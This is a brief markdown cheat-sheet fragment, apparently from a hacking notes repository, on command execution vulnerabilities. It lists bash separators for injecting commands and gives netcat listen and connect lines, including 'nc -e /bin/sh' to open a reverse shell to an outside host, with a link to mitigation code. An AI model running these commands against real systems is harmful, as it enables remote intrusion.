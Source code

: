* If you can run terminal commands (eg. ping), try to get a reverse shell
* Bash separators: **; |**
* Netcat commands:
  * Listen - **$ nc -vv -l -p _port_**
  * Connect - **$ nc -e /bin/sh _IP_ _port_**
  
### [Mitigation](https://github.com/KevinSantos/Hacking/blob/master/codeExecutionVuln.php)

